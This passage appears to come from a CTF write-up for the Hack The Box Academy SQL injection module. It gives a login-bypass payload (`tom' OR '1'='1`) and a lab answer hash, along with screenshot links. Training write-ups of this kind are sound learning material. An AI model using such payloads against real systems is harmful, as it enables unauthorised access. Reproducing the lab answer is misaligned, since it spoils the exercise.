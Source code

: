 _Hint: Check the cheat sheet for the payload needed._

The web page:

[![](https://github.com/DjikstraCS/CTF-Write-Ups/raw/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220512161641.png)](https://github.com/DjikstraCS/CTF-Write-Ups/blob/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220512161641.png)

Payload: `tom' OR '1'='1`

[![](https://github.com/DjikstraCS/CTF-Write-Ups/raw/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220512161624.png)](https://github.com/DjikstraCS/CTF-Write-Ups/blob/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220512161624.png)

**Answer:** `202a1d1a8b195d5e9a57e434cc16000c`

---

## [](https://github.com/DjikstraCS/CTF-Write-Ups/blob/main/Hack%20The%20box/Academy/SQL%20Injection%20Fundamentals.md#using-comments)
